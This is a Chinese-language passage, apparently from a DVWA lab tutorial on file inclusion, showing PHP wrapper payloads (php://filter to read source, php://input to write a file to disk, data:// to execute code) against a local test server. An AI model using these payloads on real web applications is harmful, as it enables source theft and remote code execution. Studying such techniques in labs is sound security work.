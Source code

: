 
1. **伪协议**

- php://filter 文件读取





payload

```payload
/fi/?page=php://filter/read=convert.base64-encode/resource=index.php
/fi/?page=php://filter/convert.base64-encode/resource=index.php
```

此时会拿到 base64 加密的字符串，解密的话就可以拿到 index.php 的源码

- php://input getshell

POST 内容可以直接写 shell ，内容如下：





php

```php
<?php fputs(fopen('info.php','w'),'<?php phpinfo();?>')?>
```



![img](https://image.3001.net/images/20200527/15905405689304.png)



然后会在当前目录下写入一个木马，直接访问看看：





payload

```payload
http://127.0.0.1:8888/vulnerabilities/fi/info.php
```



![img](https://image.3001.net/images/20200527/15905406707600.png)



- data:// 伪协议

数据封装器，和 php:// 相似，可以直接执行任意 PHP 代码：





php

```php
/fi/?page=data:text/plain,<?php phpinfo();?>
/fi/?page=data:text/plain;base64, PD9waHAgcGhwaW5mbygpOz8%2b
```
